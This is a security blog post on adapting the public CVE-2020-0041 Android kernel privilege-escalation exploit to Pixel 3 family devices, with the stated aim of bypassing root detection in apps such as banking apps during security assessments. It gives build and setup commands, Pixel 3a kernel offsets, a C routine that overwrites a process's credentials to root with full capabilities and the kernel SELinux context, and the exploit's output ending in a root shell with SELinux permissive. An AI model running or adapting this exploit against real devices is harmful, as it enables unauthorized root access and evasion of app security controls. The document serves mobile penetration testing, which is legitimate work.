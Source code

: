 +++ 
title = "Bypassing root detection on Pixel 3 devices" 
date = "2022-02-27" 
author = "Joan Calabrés"  
description = "Adapting the CVE-2020-0041 privilege escalation exploit for Pixel 3 family devices in order to bypass root detection."
+++

There are different root frameworks that can be used on Android in order to obtain root privileges. Usually, during Android application security evaluations, root detection is tested in different ways. Application countermeasures such as root detection are easy to bypass in most of the Android applications and sometimes without the use of reverse engineering techniques; however, as I've been seen during the analysis of banking applications, bypassing root detection on these applications can be hard and time consuming due high obfuscation and countermeasures applied.

A common procedure in the industry is the adaptation of privilege escalation exploits that are not detectable by most of the applications. In this post I will explain how to adapt [bluefrostsecurity](https://labs.bluefrostsecurity.de/blog/2020/04/08/cve-2020-0041-part-2-escalating-to-root/) **CVE-2020-0041** PoC for Pixel 3 to all the Pixel3 family devices. Furthermore, I will provide an improvement to obtain a non-limited root shell. 

## Table of Contents
- [Table of Contents](#table-of-contents)
- [Requirements](#requirements)
- [Adapting the exploit](#adapting-the-exploit)
- [Issues & improvements](#issues--improvements)
- [Testing the exploit](#testing-the-exploit)

## Requirements

* Download the **CVE-2020-0041** PoC exploit that we will be using for the modifications:

```bash
git clone https://github.com/bluefrostsecurity/CVE-2020-0041
```

* In order to adapt the exploit for any Pixel 3 device, the specific Pixel 3 vulnerable firmware **(QQ1A.200205.002)** needs to be downloaded from [official website](https://developers.google.com/android/images). A list of the specific devices links can be found below:

    * [Pixel 3 XL](https://dl.google.com/dl/android/aosp/crosshatch-qq1a.200205.002-factory-3e5c17fd.zip)

    * [Pixel 3a XL](https://dl.google.com/dl/android/aosp/bonito-qq1a.200205.002-factory-238bc80e.zip)

    * [Pixel 3a](https://dl.google.com/dl/android/aosp/sargo-qq1a.200205.002-factory-36d5179f.zip)

* Download [abootimg](https://github.com/ggrandou/abootimg) and compile it:

```bash
git clone https://github.com/ggrandou/abootimg
cd abootimg
make
```

* Download and install [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) tool using python pip:

```bash
sudo apt install python3-pip
sudo pip3 install --upgrade lz4 git+https://github.com/marin-m/vmlinux-to-elf
```

* In addition, we will need the **Android NDK** in our path in order to compile the exploit. As an example, I have this line on my .zshrc file.

```bash
export NDK="/home/calabres/NDK"
```

## Adapting the exploit

1. First of all we need to extract the compressed kernel image from the boot.img. For that, we will use the already downloaded tool **abootimg**.

```bash
./abootimg -x [path_to_boot_img]
```

The produced **zImage**, is an image that contains the compressed Android Kernel.

2. In order to obtain an uncompressed image of the Kernel that contains correct symbols and offsets, use the [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) tool.

```bash
vmlinux-to-elf [path_to_zImage] kernel.elf
```

3. Use the disassembler of your preference to find the labels related with the exploit offsets found in exploit.c. The labels to find inside the kernel are the following:

```c
SELINUX_ENFORCING_OFFSET 
MEMSTART_ADDR_OFFSET 
SYSCTL_TABLE_ROOT_OFFSET
PROC_DOUINTVEC_OFFSET
INIT_TASK_OFFSET
INIT_CRED_OFFSET
OFFSET_PIPE_FOP
```

4. Change exploit.c offsets for the offsets found in your device kernel image, in my case Pixel 3a offsets are:

```c
#define SELINUX_ENFORCING_OFFSET 0x2ffe000
#define MEMSTART_ADDR_OFFSET 0x23a6390
#define SYSCTL_TABLE_ROOT_OFFSET 0x2dda178
#define PROC_DOUINTVEC_OFFSET 0x19e8758
#define INIT_TASK_OFFSET 0x2da1e00L
#define INIT_CRED_OFFSET 0x2db0238
#define OFFSET_PIPE_FOP 0x2173650
```

## Issues & improvements

After the adaptation of the exploit and its execution, you will obtain a root shell; however, this root shell is very limited and you will have some problems executing binaries and creating files. Finding on the Internet I found the issue: *you need to patch the security context of the root user.*

During the exploit execution the process executed need to be patched with the correct security context for the root user. The next function is used to patch the credentials of a specific address:

```c
void patch_task_cred(uint64_t cred_addr, uint32_t init_sid)
{
    uint64_t val;
    struct cred *cred = (void *)cred_addr;
    struct task_security_struct *sec;

    if (cred == NULL)
        return;

    val = 0;
    write32((uint64_t)&cred->uid, val);
    write32((uint64_t)&cred->gid, val);
    write32((uint64_t)&cred->suid, val);
    write32((uint64_t)&cred->sgid, val);
    write32((uint64_t)&cred->euid, val);
    write32((uint64_t)&cred->egid, val);
    write32((uint64_t)&cred->fsuid, val);
    write32((uint64_t)&cred->fsgid, val);
    write32((uint64_t)&cred->securebits, val);

    val = ~(0UL);
    write64((uint64_t)&cred->cap_inheritable, val);
    write64((uint64_t)&cred->cap_permitted, val);
    write64((uint64_t)&cred->cap_effective, val);
    write64((uint64_t)&cred->cap_bset, val);

    sec = (void *)read64((uint64_t)&cred->security);

    if (sec != NULL) {
        write32((uint64_t)&sec->osid, init_sid);
        write32((uint64_t)&sec->sid, init_sid);
    }
}
```

## Testing the exploit 

*The exploit can be built by simply running "make" with the Android NDK in the path. It can also be pushed to a phone attached with adb by doing "make all push". Now just run /data/local/tmp/poc from an adb shell to see the exploit running:*

```bash
[+] Mapped 200000
[+] selinux_enforcing before exploit: 1
[+] pipe file: 0xffffffd9c67c7700
[*] file epitem at ffffffda545d7d00
[*] Reallocating content of 'write8_inode' with controlled data.[DONE]
[+] Overwriting 0xffffffd9c67c7720 with 0xffffffda545d7d50...[DONE]
[*] Write done, should have arbitrary read now.
[+] file operations: ffffff97df1af650
[+] kernel base: ffffff97dd280000
[*] Reallocating content of 'write8_selinux' with controlled data.[DONE]
[+] Overwriting 0xffffff97dfe24000 with 0x0...[DONE]
[*] init_cred: ffffff97dfc300a0
[+] memstart_addr: 0xffffffe700000000
[+] First level entry: ceac5003 -> next table at ffffffd9ceac5000
[+] Second level entry: f173c003 -> next table at ffffffd9f173c000
[+] sysctl_table_root = ffffff97dfc5a3f8
[*] Reallocating content of 'write8_sysctl' with controlled data.[DONE]
[+] Overwriting 0xffffffda6da8d868 with 0xffffffda49ced000...[DONE]
[+] Injected sysctl node!
[*] Node write8_inode, pid 7058, kaddr ffffffda0723f900
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_selinux, pid 6848, kaddr ffffffd9c9fa2400
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_sysctl, pid 7110, kaddr ffffffda67e7d180
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[+] Cleaned up sendmsg threads
[*] epitem.next = ffffffd9c67c7720
[*] epitem.prev = ffffffd9c67c77d8
^[[*] Launching privileged shell
root_by_cve-2020-0041:/ # id   
uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0
root_by_cve-2020-0041:/ # getenforce
Permissive
root_by_cve-2020-0041:/ # 
``````

I usually run run [rootbeer](https://play.google.com/store/apps/details?id=com.scottyab.rootbeer.sample&hl=es_419&gl=US) sample app for a fast root detection test. Despite this third party library is not using the same detection methods as banking applications is a good way to get an idea of how much your rooted device is hidden. Rootbeer was not able to detect root while using this privilege escalation exploit.

{{< image src="/posts/img/pixelroot/rootbeer.png" alt="Using rootbeer" style="align: center;border-radius: 8px;height: 600px;">}}
